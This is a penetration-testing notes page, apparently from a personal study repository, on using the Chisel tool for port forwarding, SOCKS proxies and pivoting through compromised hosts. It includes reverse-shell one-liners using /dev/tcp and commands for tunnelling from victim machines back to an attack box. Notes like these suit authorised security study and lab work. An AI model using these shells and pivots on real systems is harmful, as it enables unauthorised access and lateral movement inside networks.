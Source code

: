 # Chisel

Given the discrepancy between term used in [[Port-Redirection-And-Tunnelling]] as a authorial decision I am just going to try standardise the Offensive Security terminology - so read the linked article for information regard why this repository uses a particular set of definitions.

[Chisel](https://github.com/jpillora/chisel.git) *"is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network."*

![](chiselworksthisway.png)


## Compilation and Shrinking the binary

```bash
#!/bin/bash
git clone https://github.com/jpillora/chisel.git 
cd chisel/
# On Victim machine:
ldd --version # linux and windows


# To mimise binary size
# -s strip binary of debug info
# -w strip of dwarf infomation
go build -ldflags="-s -w" 
# Build for windows
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w"
upx chisel

# IPsec stuff I failed to get workingchisel server --port 8080 --reverse
go build -ldflags="-s -w"
upx brute chisel
chiselsize=$(du -hs chisel)
echo "Chisel is now ready and minimised: "
echo $chiselsize
```


Ran either on Attack box or target box as a server or client

- Regarding `--socks5` and `:socks`
	- *"When the chisel server has `--socks5` enabled, remotes can specify "socks" in place of remote-host and remote-port.The default local host and port for a "socks" remote is 127.0.0.1:1080. Connections to this remote will terminate at the server's internal SOCKS5 proxy."*

- Regarding `--reverse` and `R:`... TLDR: `--reverse` allows reverse port forwarding, `R:` perform reverse port forward
	- *"When the chisel server has `--reverse` enabled, remotes can be prefixed with `R` to denote that they are reversed. That is, the server will listen and accept connections, and they will be proxied through the client which specified the remote. Reverse remotes specifying "`R:socks`" will listen on the server's default socks port (1080) and terminate the connection at the client's internal SOCKS5 proxy."*

Capture `chisel` traffic with `tcpdump` 
```bash
sudo tcpdump -nvvvXi tun0 tcp port $PORT
```

## Local Port Forwarding

```bash
# AttackBox
# -host otherwise default is 0.0.0.0
# -v is useful for checking connection 
# interfaceIP host ip for a tunX 
chisel server -host $interfaceIP -p 10000 
# Client
chisel client $interfaceIP:10000 127.0.0.1:10001
```

## Remote/Reverse Port Forwarding

```bash
# AttackBox
# -host otherwise default is 0.0.0.0
# -v is useful for checking connection 
# interfaceIP host ip for a tunX 
chisel server -host $interfaceIP -p 10000 --reverse
# Client
# R .. reverse from
# :$local_host == any interface opening a :$local_port
# To some :$remote_host:$remote_port
chisel client $interfaceIP:10000 R:$local_host:$local_port:$remote_host:$remote_port
# For example from the machine with the server you want to curl an internal webpage on 10.10.11.1:443, with access only to a client on 10.10.10.1
chisel client $serverIP:10000 R:10.10.10.1:12345:10.10.11.1:443
```

## Dynamic Port Forwarding  

```bash
chisel server -host $interfaceIP -p 10000 -v --socks5
chisel client $interfaceIP:10000  10001:socks
# comment sock4 ... and add to /etc/proxychains4.conf:
socks5 $serverIP $serverPort 
```

## Reverse Dynamic Socks Proxy

```bash
chisel server -host $interfaceIP -p 10000 -v --socks5 --reverse
chisel client $interfaceIP:10000  R:10001:socks
# comment sock4 ... and add to /etc/proxychains4.conf:
socks5 $serverIP $serverPort 
```

## Reverse Pivot with Chisel Explained:

Chisel is useful when you can not port forward with ssh. You would then need chisel for reverse pivoting, which is the reverse of port forward as the  **Remote box is listening** to connect back the attack to open up the tunnel. For information about [[Port-Redirection-And-Tunnelling]].

```bash
# AttackBox
chisel server -p 10000 -reverse # -v is useful for checking connection 
# Client
chisel client $attackboxIP:1000 R:8001:$targetip:$targetport
# Accessing through the tunnel on Attackbox
curl 127.0.0.1:8001 # will then access $clientip:$port
```


## Local Pivots and Chaining with Chisel Explained

Using `nohup` and `&` will background a job on a shell - very useful on linux  

Presuming you have a reverse shell on both 192.168.0.1 and 192.168.0.2, where `chisel server` has opened port `10001` from `nohup ./chisel client 10.10.10.10:10000 10002:127.0.0.1:10002 &` with second reverse shell on 192.168.0.2 being: `bash -c 'bash -i >& /dev/tcp/192.168.0.1/10001 0>&1'`; consider the following as:
```bash
# 10.10.10.10 = kali
# 192.168.0.1 = externally facing compromised box 
# 192.168.0.2 = internal virtual network not exposed to internet
# 192.168.0.3 = internal virtual network not exposed to internet

chisel server -p 10000 -reverse -v
# 192.168.0.1 - $kali
nohup ./chisel client 10.10.10.10:10000 10002:127.0.0.1:10000 &
# 192.168.0.2 - 
nohup ./chisel client 192.168.0.1:10002 10002:127.0.0.1:10002 &
# Reverse shell from 192.168.0.3
bash -c 'bash -i >& /dev/tcp/192.168.0.2/10002 0>&1'
```

[Consideration for Windows](https://learn.microsoft.com/en-US/troubleshoot/windows-client/deployment/create-user-defined-service)

## `SSH` and `chisel` with `ncat` 

If we has chisel socks proxy we can ssh into 10.10.10.10 with both `ssh` and `ncat` through the pivot! `ssh` plus `ncat` and `ProxyCommand` configuration option for SSH SOCKS Proxy
```bash
# SSH Formatting Tokens for ProxyCommand
# %h = host
# %p = port
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' admin@10.10.10.10
```

## 0xDF's TD;DR Cheat Sheet 

Start server listening on 8000:

`./chisel server -p 8000 --reverse`

From victim machine:

Command | Description
--- | ---
`chisel client 10.10.14.3:8000 R:80:127.0.0.1:80` | Listen on Kali 80, forward to localhost port 80 on client
`chisel client 10.10.14.3:8000 R:4444:10.10.10.240:80` | Listen on Kali 4444, forward to 10.10.10.240 port 80
`chisel client 10.10.14.3:8000 R:socks` | Create SOCKS5 listener on 1080 on Kali, proxy through clie

For SOCKS proxies don't forget `proxychains` and it configuration!


## References

[0xDF Tunneling with Chisel and SSF](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)
[Alexis Rodriiguez Medium](https://medium.com/geekculture/chisel-network-tunneling-on-steroids-a28e6273c683)
[Ippsec.Rocks](https://ippsec.rocks/?#)
[hdks](https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/#reverse-dynamic-socks-proxy)